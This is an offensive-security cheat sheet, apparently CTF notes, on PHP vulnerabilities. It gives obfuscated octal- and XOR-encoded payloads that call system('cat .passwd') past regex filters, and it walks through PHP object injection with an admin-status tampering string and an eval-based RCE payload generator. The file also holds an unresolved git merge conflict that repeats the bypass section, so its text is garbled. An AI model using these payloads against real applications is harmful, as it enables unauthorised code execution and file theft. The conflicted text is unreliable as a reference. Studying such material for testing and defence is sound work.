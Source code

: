 <<<<<<< HEAD
# PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

		import string
 
		if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            		x = chr(ord(i)^ord(j))
            		if x in s1+'_':
                		print '{0}\t{1}\t{2}'.format(i,j,x)

	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

## PHP object


Serialization in PHP
To understand PHP object injections, you have to first understand how PHP serialize and deserialize objects.
Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.

                <?php
		class User{
		public $username;
		public $status;
		}
		$user = new User;
		$user->username = 'vickie';
		$user->status = 'not admin';
		echo serialize($user);
		?>
	
Run the code snippet, and you will get the serialized string that represents the “user” object.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.

		b:THE_BOOLEAN;
	
“i” represents an integer.

		i:THE_INTEGER;
“d” represents a float.
	
		d:THE_FLOAT;
“s” represents a string.

		s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.

		a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.

		O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.

	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().

	<?php
	class User{
	public $username;
	public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
	?>
	
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?
PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.
The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.
Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.
Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.
Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.

	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.

	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)

	class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...

	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:

	class Example2
	{
	   private $hook = "phpinfo();";
	}
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.
=======
### PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

		import string
 
		if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            		x = chr(ord(i)^ord(j))
            		if x in s1+'_':
                		print '{0}\t{1}\t{2}'.format(i,j,x)

	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);
>>>>>>> parent of 0369ce2 (php oject)

